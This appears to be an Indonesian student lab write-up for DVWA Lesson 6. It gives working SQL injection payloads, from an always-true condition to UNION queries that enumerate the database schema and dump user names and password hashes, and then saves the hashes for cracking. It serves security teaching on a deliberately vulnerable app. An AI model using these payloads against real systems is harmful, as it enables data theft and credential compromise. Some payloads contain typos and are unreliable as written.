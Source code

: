 # Tugas Final Project

### Anggota Kelompok

|Nama      |NRP    |
|---|---|
Rian Danis  | 5114100084
Naufan Arifie | 5114100136
Dimas Hirda P | 5114100147


### DVWA
  ### Lesson 6

#### 1. Jalankan Firefox
#### 2. Login ke DVWA
1. Masukkan alamat http://192.168.1.106/dvwa/login.php (Sesuaikan IP dengan IP system)
2. Login : admin
+ Passworn: password
+ login
#### 3. Tentukan Level Sekuritas DVWA
1. Klik DVWA Security pada menu sebelah kiri
+ pilih "low"
+ submit

#### 4. Menu SQL Injection
1. Pilih "SQL Injection" dari menu sebelah kiri

#### 5. Basic Injection
1. Input "1" pada text box.
2. Submit
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Basic.PNG)

#### 6. Always True Scenario
1. Inputkan text %' or '0'='0
2. Submit
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Always_true.PNG)

#### 7. Display Database Version
1. Inputkan text %' or 0=0 union select null, version() #
2. Submit
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Basic.PNG)

#### 8. Display Database User
1. Inputkan %' or 0=0 union select null, user() #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Basic.PNG)

#### 9. Display Database Name
1. Inputkan %' or 0=0 unuon select null, database () #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Basic.PNG)

#### 10. Display all tables in information_schema
1. Inputkan %' an 1=0 union select null, table_name from information_schema.tables #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Basic.PNG)

#### 11. Display all columns fields dalam information_schema user table
1. Inputkan %' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns 
where table_name = 'users' #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Basic.PNG)

#### 12. Display all columns fields contents dalam information_schema user table
1. Inputkan %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Basic.PNG)

#### Create Password Hash File
1. Copy hash password dan admin
2. Paste kedalam leafpad
3. Save
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Basic.PNG)

